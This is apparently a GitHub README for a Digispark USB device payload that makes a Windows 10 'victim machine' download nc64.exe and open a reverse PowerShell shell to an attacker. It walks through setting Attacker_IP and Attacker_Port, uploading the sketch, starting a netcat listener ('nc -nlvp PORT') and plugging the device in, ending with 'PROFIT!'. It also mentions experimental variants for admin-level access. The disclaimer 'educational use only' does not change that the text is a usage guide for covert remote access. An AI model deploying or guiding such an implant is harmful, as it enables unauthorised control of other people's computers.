 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Reverse shell, Windows 10

Downloads `nc64.exe` from:    
https://github.com/int0x33/nc.exe

Calls the attacker, using downloaded `nc64.exe` and opens up a powershell access from attacker.
## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define:
	-  `-ArgumentList \'Attacker_IP\', \'Attacker_Port\',`
- Upload to Digispark
- Establish the listener to attacker machine:
	- `nc -nlvp PORT`

- Plug in to victim machine
- **PROFIT!**
---
**Note:**   
Folders:   
- [exp](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_revshell/exp)
	- Contains experimental stuff, to open up the Powershell from victim as Admin user for attacker to get "instant roots"
- [old](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_revshell/old) 
	- One of the first drafts to initially getting the reverse shell to work
